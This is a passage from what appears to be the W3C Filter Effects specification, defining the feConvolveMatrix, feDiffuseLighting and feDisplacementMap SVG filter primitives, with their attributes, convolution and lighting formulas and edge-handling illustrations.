>       <g transform="translate(900,25)">
>         <use xlink:href="#Red100" filter="url(#arithmeticNoFlood)" />
>         <use xlink:href="#Red50" filter="url(#arithmeticNoFlood)" />
>         <text x="-25" y="275">arithmetic</text>
>       </g>
>     </g>
>   </g>
> </svg>
> ```
>
> 
>
> Example of feComposite
>
> [View this example as SVG](../filter-effects-1/examples/feComposite.svg)

#### 9.9. Filter primitive feConvolveMatrix {#filter-effects-1:feConvolveMatrixElement}

| Name: | **`feConvolveMatrix`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in order kernelMatrix divisor bias targetX targetY edgeMode kernelUnitLength preserveAlpha |
| DOM Interfaces: | [SVGFEConvolveMatrixElement](#filter-effects-1:InterfaceSVGFEConvolveMatrixElement) |

feConvolveMatrix applies a matrix convolution filter effect. A convolution combines pixels in the input image with neighboring pixels to produce a resulting image. A wide variety of imaging operations can be achieved through convolutions, including blurring, edge detection, sharpening, embossing and beveling.

A matrix convolution is based on an n-by-m matrix (the convolution kernel) which describes how a given pixel value in the input image is combined with its neighboring pixel values to produce a resulting pixel value. Each result pixel is determined by applying the kernel matrix to the corresponding source pixel and its neighboring pixels. The basic convolution formula which is applied to each color value for a given pixel is:

color  X , Y   =       ∑   i = 0     orderY − 1      ∑   j = 0     orderX − 1     source    x − targetX  + j  ,   y − targetY  + i      ⋅  kernelMatrix    orderX − j  − 1,    orderY − i  − 1       divisor   +  bias ⋅  alpha  x , y       func color_{X , Y} = { sum from{i=0} to{func orderY -1} sum from{j=0} to{func orderX -1} func source_{x - func targetX + j , y - targetY + i} cdot func kernelMatrix_{func orderX - j - 1, func orderY - i - 1 }} over {func divisor} + func bias cdot func alpha_{x,y}

where "orderX" and "orderY" represent the X and Y values for the order attribute, "targetX" represents the value of the targetX attribute, "targetY" represents the value of the targetY attribute, "kernelMatrix" represents the value of the kernelMatrix attribute, "divisor" represents the value of the divisor attribute, and "bias" represents the value of the bias attribute.

In the above formulas the values in the kernel matrix are applied such that the kernel matrix is rotated 180 degrees relative to the source and destination images in order to match convolution theory as described in many computer graphics textbooks.

To illustrate, suppose you have a input image which is 5 pixels by 5 pixels, whose color values for one of the color channels are as follows:

0     20     40     235     235       100     120     140     235     235       200     220     240     235     235       255     255     255     255     255       255     255     255     255     255        left[ matrix {0 # 20 # 40 # 235 # 235 ## 100 # 120 # 140 # 235 # 235 ## 200 # 220 # 240 # 235 # 235 ## 255 # 255 # 255 # 255 # 255 ## 255 # 255 # 255 # 255 # 255} right]

and you define a 3-by-3 convolution kernel as follows:

1     2     3       4     5     6       7     8     9        left[ matrix {1 # 2 # 3 ## 4 # 5 # 6 ## 7 # 8 # 9} right]

Let’s focus on the color value at the second row and second column of the image (source pixel value is 120). Assuming the simplest case (where the input image’s pixel grid aligns perfectly with the kernel’s pixel grid) and assuming default values for attributes divisor, targetX and targetY, then resulting color value will be:

resultChannel 2,2  =             9 ⋅ 0   +   8 ⋅ 20    +   7 ⋅ 40    +   6 ⋅ 100    +   5 ⋅ 120    +   4 ⋅ 140    +   3 ⋅ 200    +   2 ⋅ 220    +   1 ⋅ 240              9 + 8  + 7  + 6  + 5  + 4  + 3  + 2  + 1      func resultChannel_2,2 = {{9 cdot 0} + {8 cdot 20} + {7 cdot 40} + {6 cdot 100} + {5 cdot 120} + {4 cdot 140} + {3 cdot 200} + {2 cdot 220} + {1 cdot 240}} over {9 + 8 + 7 + 6 + 5 + 4 + 3 + 2 + 1}

Because they operate on pixels, matrix convolutions are inherently resolution-dependent. To make feConvolveMatrix produce resolution-independent results, an explicit value should be provided for the attribute kernelUnitLength.

kernelUnitLength, in combination with the other attributes, defines an implicit pixel grid in the filter effects coordinate system (i.e., the coordinate system established by the primitiveUnits attribute). The input image will be temporarily rescaled to match its pixels with kernelUnitLength. The convolution happens on the resampled image. After applying the convolution, the image is resampled back to the original resolution.

When the image must be resampled to match the coordinate system defined by kernelUnitLength prior to convolution, or resampled to match the device coordinate system after convolution, it is recommended that high quality viewers make use of appropriate interpolation techniques, for example bilinear or bicubic. Depending on the speed of the available interpolents, this choice may be affected by the `image-rendering` property setting. Note that implementations might choose approaches that minimize or eliminate resampling when not necessary to produce proper results, such as when the document is zoomed out such that kernelUnitLength is considerably smaller than a device pixel.

*Attribute definitions:*

****`order`** = "*`<number-optional-number>`*"**

: Indicates the number of cells in each dimension for kernelMatrix. The values provided must be `<integer>` s greater than zero. Values that are not integers will be truncated, i.e. rounded to the closest integer value towards zero. The first number, <orderX>, indicates the number of columns in the matrix. The second number, <orderY>, indicates the number of rows in the matrix. If <orderY> is not provided, it defaults to <orderX>.

  It is recommended that only small values (e.g., `3`) be used; higher values may result in very high CPU overhead and usually do not produce results that justify the impact on performance.

  The initial value for order is `3`.

  Animatable: yes.

****`kernelMatrix`** = "*<list of numbers>*"**

: The list of `<number>` s that make up the kernel matrix for the convolution. Values are separated by space characters and/or a comma. The number of entries in the list must equal <orderX> times <orderY>.

  If the result of `orderX * orderY` is not equal to the the number of entries in the value list, the filter primitive acts as a pass through filter.

  > **Issue:** How to behave on invalid number of entries in the value list? [[Issue #237]](https://github.com/w3c/csswg-drafts/issues/237)

  Animatable: yes.

****`divisor`** = "*`<number>`*"**

: After applying the kernelMatrix to the input image to yield a number, that number is divided by divisor to yield the final destination color value. A divisor that is the sum of all the matrix values tends to have an evening effect on the overall color intensity of the result. If the specified divisor is `0` then the default value will be used instead.

  The initial value is the sum of all values in kernelMatrix, with the exception that if the sum is zero, then the divisor is set to `1`.

  Animatable: yes.

****`bias`** = "*`<number>`*"**

: After applying the kernelMatrix to the input image to yield a number and applying the divisor, the bias attribute is added to each component. One application of bias is when it is desirable to have `.5` gray value be the zero response of the filter. The bias property shifts the range of the filter. This allows representation of values that would otherwise be clamped to 0 or 1.

  The initial value for bias is `0`.

  Animatable: yes.

****`targetX`** = "`<integer>`"**

: Determines the positioning in X of the convolution matrix relative to a given target pixel in the input image. The leftmost column of the matrix is column number zero. The value must be such that: 0 <= targetX < orderX. By default, the convolution matrix is centered in X over each pixel of the input image (i.e., targetX = floor ( orderX / 2 )).

  Animatable: yes.

****`targetY`** = "`<integer>`"**

: Determines the positioning in Y of the convolution matrix relative to a given target pixel in the input image. The topmost row of the matrix is row number zero. The value must be such that: 0 <= targetY < orderY. By default, the convolution matrix is centered in Y over each pixel of the input image (i.e., targetY = floor ( orderY / 2 )).

  Animatable: yes.

****`edgeMode`** = "duplicate | wrap | mirror | none"**

: Determines how to extend the input image as necessary with color values so that the matrix operations can be applied when the kernel is positioned at or near the edge of the input image.

  `duplicate` indicates that the input image is extended along each of its borders as necessary by duplicating the color values at the given edge of the input image.

  Original N-by-M image, where m=M-1 and n=N-1:

  11     12      . . .       1 m       1 M        21     22      . . .       2 m       2 M         . . .       . . .       . . .       . . .       . . .         n 1       n 2       . . .      nm     nM        N 1       N 2       . . .      Nm     NM        left[ matrix {11 # 12 # { "." "." "."} # {1 m} # {1 M} ## 21 # 22 # { "." "." "."} # {2 m} # {2 M} ## { "." "." "."} # { "." "." "."} # { "." "." "."} # { "." "." "."} # { "." "." "."} ## {n 1} # {n 2} # { "." "." "."} # func nm # func nM ## {N 1} # {N 2} # { "." "." "."} # func Nm # func NM} right]

  Extended by two pixels using `duplicate`:

  11     11     11     12     …      1 m       1 M       1 M       1 M        11     11     11     12     …      1 m       1 M       1 M       1 M        11     11     11     12     …      1 m       1 M       1 M       1 M        21     21     21     22     …      2 m       2 M       2 M       2 M        …     …     …     …     …     …     …     …     …        n 1       n 1       n 1       n 2      …     nm     nM     nM     nM        N 1       N 1       N 1       N 2      …     Nm     NM     NM     NM        N 1       N 1       N 1       N 2      …     Nm     NM     NM     NM        N 1       N 1       N 1       N 2      …     Nm     NM     NM     NM        left[ matrix {11 # 11 # 11 # 12 # dotslow # {1 m} # {1 M} # {1 M} # {1 M} ## 11 # 11 # 11 # 12 # dotslow # {1 m} # {1 M} # {1 M} # {1 M} ## 11 # 11 # 11 # 12 # dotslow # {1 m} # {1 M} # {1 M} # {1 M} ## 21 # 21 # 21 # 22 # dotslow # {2 m} # {2 M} # {2 M} # {2 M} ## dotslow # dotslow # dotslow # dotslow # dotslow # dotslow # dotslow # dotslow # dotslow ## {n 1} # {n 1} # {n 1} # {n 2} # dotslow # func nm # func nM # func nM # func nM ## {N 1} # {N 1} # {N 1} # {N 2} # dotslow # func Nm # func NM # func NM # func NM ## {N 1} # {N 1} # {N 1} # {N 2} # dotslow # func Nm # func NM # func NM # func NM ## {N 1} # {N 1} # {N 1} # {N 2} # dotslow # func Nm # func NM # func NM # func NM} right]

  wrap indicates that the input image is extended by taking the color values from the opposite edge of the image.

  Extended by two pixels using wrap:

  nm     nM     n1     n2     …     nm     nM     n1     n2       Nm     NM     N1     N2     …     Nm     NM     N1     N2       1m     1M     11     12     …     1m     1M     11     12       2m     2M     21     22     …     2m     2M     21     22       …     …     …     …     …     …     …     …     …       nm     nM     n1     n2     …     nm     nM     n1     n2       Nm     NM     N1     N2     …     Nm     NM     N1     N2       1m     1M     11     12     …     1m     1M     11     12       2m     2M     21     22     …     2m     2M     21     22        left[ matrix { nm # nM # n1 # n2 # dotslow # nm # nM # n1 # n2 ## Nm # NM # N1 # N2 # dotslow # Nm # NM # N1 # N2 ## 1m # 1M # 11 # 12 # dotslow # 1m # 1M # 11 # 12 ## 2m # 2M # 21 # 22 # dotslow # 2m # 2M # 21 # 22 ## dotslow # dotslow # dotslow # dotslow # dotslow # dotslow # dotslow # dotslow # dotslow ## nm # nM # n1 # n2 # dotslow # nm # nM # n1 # n2 ## Nm # NM # N1 # N2 # dotslow # Nm # NM # N1 # N2 ## 1m # 1M # 11 # 12 # dotslow # 1m # 1M # 11 # 12 ## 2m # 2M # 21 # 22 # dotslow # 2m # 2M # 21 # 22 } right]

  mirror indicates that the input image is extended by taking color values mirrored across the edge being sampled beyond.

  Extended by two pixels using mirror:

  22     21     21     22     …     2m     2M     2M     2m       12     11     11     12     …     1m     1M     1M     1m       12     11     11     12     …     1m     1M     1M     1m       22     21     21     22     …     2m     2M     2M     2m       …     …     …     …     …     …     …     …     …       n2     n1     n1     n2     …     nm     nM     nM     nm       N2     N1     N1     N2     …     Nm     NM     NM     Nm       N2     N1     N1     N2     …     Nm     NM     NM     Nm       n2     n1     n1     n2     …     nm     nM     nM     nm        left[ matrix { 22 # 21 # 21 # 22 # dotslow # 2m # 2M # 2M # 2m ## 12 # 11 # 11 # 12 # dotslow # 1m # 1M # 1M # 1m ## 11 # 11 # 11 # 12 # dotslow # 1m # 1M # 1M # 1m ## 22 # 21 # 21 # 22 # dotslow # 2m # 2M # 2M # 2m ## dotslow # dotslow # dotslow # dotslow # dotslow # dotslow # dotslow # dotslow # dotslow ## n2 # n1 # n1 # n2 # dotslow # nm # nM # nM # nm ## N2 # N1 # N1 # N2 # dotslow # Nm # NM # NM # Nm ## N2 # N1 # N1 # N2 # dotslow # Nm # NM # NM # Nm ## n2 # n2 # n2 # n2 # dotslow # nm # nM # nM # nm } right]

  The value `none` indicates that the input image is extended with pixel values of zero for R, G, B and A.

  The initial value for edgeMode is `duplicate`.

  Animatable: yes.

****`kernelUnitLength`** = "*`<number-optional-number>`*"**

: The first number is the <dx> value. The second number is the <dy> value. If the <dy> value is not specified, it defaults to the same value as <dx>. Indicates the intended distance in current filter units (i.e., units as determined by the value of attribute primitiveUnits) between successive columns and rows, respectively, in the kernelMatrix. By specifying value(s) for kernelUnitLength, the kernel becomes defined in a scalable, abstract coordinate system. If kernelUnitLength is not specified, the default value is one pixel in the offscreen bitmap, which is a pixel-based coordinate system, and thus potentially not scalable. For some level of consistency across display media and user agents, it is necessary that a value be provided for kernelUnitLength. In some implementations, the most consistent results and the fastest performance will be achieved if the pixel grid of the temporary off-screen images aligns with the pixel grid of the kernel.

  If a negative or zero value is specified the default value will be used instead.

  > **Note:** This attribute is deprecated and will be removed. It does not provide a reliable way to create platform independent results. Future versions of this specification will cover this use case.

  Animatable: yes.

****`preserveAlpha`** = "*false | true*"**

: A value of `false` indicates that the convolution will apply to all channels, including the alpha channel. In this case the `ALPHAX,Y` of the [convolution formula](#filter-effects-1:feConvolveMatrixElementFormula) for a given pixel is:

  `ALPHAX,Y = ( SUM I=0 to [orderY-1] { SUM J=0 to [orderX-1] { SOURCE X-targetX+J, Y-targetY+I * kernelMatrixorderX-J-1, orderY-I-1 } } ) / divisor + bias`

  A value of "true" indicates that the convolution will only apply to the color channels. In this case, the filter will temporarily unpremultiply the color component values and apply the kernel. In this case the `ALPHAX,Y` of the [convolution formula](#filter-effects-1:feConvolveMatrixElementFormula) for a given pixel is:

  `ALPHAX,Y = SOURCEX,Y`

  The initial value for preserveAlpha is `false`.

  Animatable: yes.

#### 9.10. Filter primitive feDiffuseLighting {#filter-effects-1:feDiffuseLightingElement}

| Name: | **`feDiffuseLighting`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, script and exactly one light sources element, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in surfaceScale diffuseConstant kernelUnitLength |
| DOM Interfaces: | [SVGFEDiffuseLightingElement](#filter-effects-1:InterfaceSVGFEDiffuseLightingElement) |

This filter primitive lights an image using the alpha channel as a bump map. The resulting image is an RGBA opaque image based on the light color with alpha = 1.0 everywhere. The lighting calculation follows the standard diffuse component of the Phong lighting model. The resulting image depends on the light color, light position and surface geometry of the input bump map.

The light map produced by this filter primitive can be combined with a texture image using the multiply term of the *arithmetic* feComposite compositing method. Multiple light sources can be simulated by adding several of these light maps together before applying it to the texture image.

The formulas below make use of 3x3 filters. Because they operate on pixels, such filters are inherently resolution-dependent. To make feDiffuseLighting produce resolution-independent results, an explicit value should be provided for the attribute kernelUnitLength.

kernelUnitLength, in combination with the other attributes, defines an implicit pixel grid in the filter effects coordinate system (i.e., the coordinate system established by the primitiveUnits attribute). The input image will be temporarily rescaled to match its pixels with kernelUnitLength. The 3x3 filters are applied to the resampled image. After applying the filter, the image is resampled back to its original resolution.

> **Note:** Depending on the speed of the available interpolates, this choice may be affected by the `image-rendering` property setting.

> **Note:** Implementations might choose approaches that minimize or eliminate resampling when not necessary to produce proper results, such as when the document is zoomed out such that kernelUnitLength is considerably smaller than a device pixel.

For the formulas that follow, the `Norm(Ax,Ay,Az)` function is defined as:

Norm   (   A x  ,  A y  ,  A z   )  =      A x 2  +  A y 2   +  A z 2       Norm(A_x,A_y,A_z) = sqrt { A_x^2+A_y^2+A_z^2}

> **Note:** User agents may use the the "fast inverse square root" to optimize the equation and avoid time differences on extrema color values. See [§ 15 Privacy Considerations](#filter-effects-1:privacy) section for more details about timing attacks.

The resulting RGBA image is computed as follows:

`Dr = kd * N.L * Lr Dg = kd * N.L * Lg Db = kd * N.L * Lb Da = 1.0`

where

kd = diffuse lighting constant  N = surface normal unit vector, a function of x and y  L = unit vector pointing from surface to light, a function of x and y in the point and spot light cases  Lr,Lg,Lb = RGB components of light, a function of x and y in the spot light case

N is a function of x and y and depends on the surface gradient as follows:

The surface described by the input alpha image I(x,y) is:

`Z (x,y) = surfaceScale * I(x,y)`

Surface normal is calculated using the Sobel gradient 3x3 filter. Different filter kernels are used depending on whether the given pixel is on the interior or an edge. For each case, the formula is:

`Nx (x,y) = - surfaceScale * FACTORx * (Kx(0,0)*I(x-dx,y-dy) + Kx(1,0)*I(x,y-dy) + Kx(2,0)*I(x+dx,y-dy) + Kx(0,1)*I(x-dx,y) + Kx(1,1)*I(x,y) + Kx(2,1)*I(x+dx,y) + Kx(0,2)*I(x-dx,y+dy) + Kx(1,2)*I(x,y+dy) + Kx(2,2)*I(x+dx,y+dy)) Ny (x,y) = - surfaceScale * FACTORy * (Ky(0,0)*I(x-dx,y-dy) + Ky(1,0)*I(x,y-dy) + Ky(2,0)*I(x+dx,y-dy) + Ky(0,1)*I(x-dx,y) + Ky(1,1)*I(x,y) + Ky(2,1)*I(x+dx,y) + Ky(0,2)*I(x-dx,y+dy) + Ky(1,2)*I(x,y+dy) + Ky(2,2)*I(x+dx,y+dy)) Nz (x,y) = 1.0 N = (Nx, Ny, Nz) / Norm((Nx,Ny,Nz))`

In these formulas, the `dx` and `dy` values (e.g., `I(x-dx,y-dy)`), represent deltas relative to a given `(x,y)` position for the purpose of estimating the slope of the surface at that point. These deltas are determined by the value (explicit or implicit) of attribute kernelUnitLength.

| Top/left corner: | Top row: | Top/right corner: |
| --- | --- | --- |
| FACTORx=2/(3*dx) Kx = \| 0 0 0 \| \| 0 -2 2 \| \| 0 -1 1 \| FACTORy=2/(3*dy) Ky = \| 0 0 0 \| \| 0 -2 -1 \| \| 0 2 1 \| | FACTORx=1/(3*dx) Kx = \| 0 0 0 \| \| -2 0 2 \| \| -1 0 1 \| FACTORy=1/(2*dy) Ky = \| 0 0 0 \| \| -1 -2 -1 \| \| 1 2 1 \| | FACTORx=2/(3*dx) Kx = \| 0 0 0 \| \| -2 2 0 \| \| -1 1 0 \| FACTORy=2/(3*dy) Ky = \| 0 0 0 \| \| -1 -2 0 \| \| 1 2 0 \| |
| Left column: | Interior pixels: | Right column: |
| FACTORx=1/(2*dx) Kx = \| 0 -1 1 \| \| 0 -2 2 \| \| 0 -1 1 \| FACTORy=1/(3*dy) Ky = \| 0 -2 -1 \| \| 0 0 0 \| \| 0 2 1 \| | FACTORx=1/(4*dx) Kx = \| -1 0 1 \| \| -2 0 2 \| \| -1 0 1 \| FACTORy=1/(4*dy) Ky = \| -1 -2 -1 \| \| 0 0 0 \| \| 1 2 1 \| | FACTORx=1/(2*dx) Kx = \| -1 1 0\| \| -2 2 0\| \| -1 1 0\| FACTORy=1/(3*dy) Ky = \| -1 -2 0 \| \| 0 0 0 \| \| 1 2 0 \| |
| Bottom/left corner: | Bottom row: | Bottom/right corner: |
| FACTORx=2/(3*dx) Kx = \| 0 -1 1 \| \| 0 -2 2 \| \| 0 0 0 \| FACTORy=2/(3*dy) Ky = \| 0 -2 -1 \| \| 0 2 1 \| \| 0 0 0 \| | FACTORx=1/(3*dx) Kx = \| -1 0 1 \| \| -2 0 2 \| \| 0 0 0 \| FACTORy=1/(2*dy) Ky = \| -1 -2 -1 \| \| 1 2 1 \| \| 0 0 0 \| | FACTORx=2/(3*dx) Kx = \| -1 1 0 \| \| -2 2 0 \| \| 0 0 0 \| FACTORy=2/(3*dy) Ky = \| -1 -2 0 \| \| 1 2 0 \| \| 0 0 0 \| |

L, the unit vector from the image sample to the light, is calculated as follows:

For Infinite light sources it is constant:

`Lx = cos(azimuth)*cos(elevation) Ly = sin(azimuth)*cos(elevation) Lz = sin(elevation)`

For Point and spot lights it is a function of position:

`Lx = Lightx - x Ly = Lighty - y Lz = Lightz - Z(x,y) L = (Lx, Ly, Lz) / Norm(Lx, Ly, Lz)`

where Lightx, Lighty, and Lightz are the input light position.

Lr,Lg,Lb, the light color vector, is a function of position in the spot light case only:

`Lr = Lightr*pow((-L.S),specularExponent) Lg = Lightg*pow((-L.S),specularExponent) Lb = Lightb*pow((-L.S),specularExponent)`

where S is the unit vector pointing from the light to the point (pointsAtX, pointsAtY, pointsAtZ) in the x-y plane:

`Sx = pointsAtX - Lightx Sy = pointsAtY - Lighty Sz = pointsAtZ - Lightz S = (Sx, Sy, Sz) / Norm(Sx, Sy, Sz)`

If L.S is positive, no light is present. (Lr = Lg = Lb = 0). If limitingConeAngle is specified, -L.S < cos(limitingConeAngle) also indicates that no light is present.

*Attribute definitions:*

****`surfaceScale`** = "*`<number>`*"**

: height of surface when Ain = 1.

  If the attribute is not specified, then the effect is as if a value of `1` were specified.

  Animatable: yes.

****`diffuseConstant`** = "*`<number>`*"**

: kd in Phong lighting model. In SVG, this can be any non-negative number.

  If the attribute is not specified, then the effect is as if a value of `1` were specified.

  Animatable: yes.

****`kernelUnitLength`** = "*`<number-optional-number>`*"**

: The first number is the <dx> value. The second number is the <dy> value. If the <dy> value is not specified, it defaults to the same value as <dx>. Indicates the intended distance in current filter units (i.e., units as determined by the value of attribute primitiveUnits) for `dx` and `dy`, respectively, in the [surface normal calculation formulas](#filter-effects-1:SurfaceNormalCalculations). By specifying value(s) for kernelUnitLength, the kernel becomes defined in a scalable, abstract coordinate system. If kernelUnitLength is not specified, the `dx` and `dy` values should represent very small deltas relative to a given `(x,y)` position, which might be implemented in some cases as one pixel in the intermediate image offscreen bitmap, which is a pixel-based coordinate system, and thus potentially not scalable. For some level of consistency across display media and user agents, it is necessary that a value be provided for kernelUnitLength.

  If a negative or zero value is specified the default value will be used instead.

  > **Note:** This attribute is deprecated and will be removed. It does not provide a reliable way to create platform independent results. Future versions of this specification will cover this use case.

  Animatable: yes.

The light source is defined by one of the child elements feDistantLight, fePointLight or feSpotLight. The light color is specified by property `lighting-color`.

#### 9.11. Filter primitive feDisplacementMap {#filter-effects-1:feDisplacementMapElement}

| Name: | **`feDisplacementMap`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in in2 scale xChannelSelector yChannelSelector |
| DOM Interfaces: | [SVGFEDisplacementMapElement](#filter-effects-1:InterfaceSVGFEDisplacementMapElement) |

> **Issue:** Implementations do not match specification. [[Issue #113]](https://github.com/w3c/csswg-drafts/issues/113)

This filter primitive uses the pixels values from the image from in2 to spatially displace the image from in. This is the transformation to be performed:

```
P'(x,y) ← P( x + scale * (XC(x,y) - .5), y + scale * (YC(x,y) - .5))
```

where P(x,y) is the input image, in, and P'(x,y) is the destination. XC(x,y) and YC(x,y) are the component values of the channel designated by the xChannelSelector and yChannelSelector. For example, to use the R component of in2 to control displacement in x and the G component of Image2 to control displacement in y, set xChannelSelector to "R" and yChannelSelector to "G".

The displacement map, in2, defines the inverse of the mapping performed.

The input image in is to remain premultiplied for this filter primitive. The calculations using the pixel values from in2 are performed using non-premultiplied color values.

This filter can have arbitrary non-localized effect on the input which might require substantial buffering in the processing pipeline. However with this formulation, any intermediate buffering needs can be determined by scale which represents the maximum range of displacement in either x or y.

When applying this filter, the source pixel location will often lie between several source pixels.

> **Note:** Depending on the speed of the available interpolents, this choice may be affected by the `image-rendering` property setting.

> **Note:** A future version of this spec will define the interpolation method to be used when distorting the source image making UAs rendering result more interoperable.

The `color-interpolation-filters` property only applies to the in2 source image and does not apply to the in source image. The in source image must remain in its current color space.

*Attribute definitions:*

****`scale`** = "*`<number>`*"**

: Displacement scale factor. The amount is expressed in the coordinate system established by attribute primitiveUnits on the filter element.

  When the value of this attribute is `0`, this operation has no effect on the source image.

  The initial value for scale is `0`.

  Animatable: yes.

****`xChannelSelector`** = "*R | G | B | A*"**

: Indicates which channel from in2 to use to displace the pixels in in along the x-axis.

  The initial value for xChannelSelector is `A`.

  Animatable: yes.

****`yChannelSelector`** = "*R | G | B | A*"**

: Indicates which channel from in2 to use to displace the pixels in in along the y-axis.

  The initial value for yChannelSelector is `A`.

  Animatable: yes.

****`in2`** = "*(see in attribute)*"**

: The second input image, which is used to displace the pixels in the image from attribute in. See defintion for in attribute.

  Animatable: yes.

#### 9.12. Filter primitive feDropShadow {#filter-effects-1:feDropShadowElement}

| Name: | **`feDropShadow`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, 